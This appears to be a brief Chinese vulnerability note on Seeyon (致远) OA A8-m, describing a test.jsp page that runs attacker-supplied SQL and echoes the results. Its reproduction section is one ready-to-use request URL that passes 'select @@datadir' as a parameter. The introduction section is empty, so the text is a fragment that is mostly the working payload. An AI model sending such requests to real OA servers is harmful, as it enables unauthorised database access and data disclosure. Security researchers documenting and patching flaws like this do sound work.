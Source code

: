 # 致远 OA A8-m 存在 sql 语句页面回显功能

> 原文：[http://book.iwonder.run/0day/致远 oa/11.html](http://book.iwonder.run/0day/致远 oa/11.html)

## 一、漏洞简介

## 二、漏洞影响

致远 OA A8-m

## 三、复现过程

```
http://wwww.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20@@datadir 
```

